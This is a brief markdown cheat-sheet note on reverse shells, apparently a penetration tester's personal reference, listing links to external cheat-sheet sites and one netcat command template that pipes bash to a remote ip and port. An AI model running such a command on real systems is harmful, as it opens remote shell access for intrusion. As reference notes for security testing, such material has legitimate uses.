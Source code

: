 # Reverse Shells Cheatsheet

https://highon.coffee/blog/reverse-shell-cheat-sheet/

* if doing nc shell and no `-e` option is available, use `/bin/bash 2>&1 nc ip port 0>&1`
* revshells.com
* https://netsec.ws/?p=331
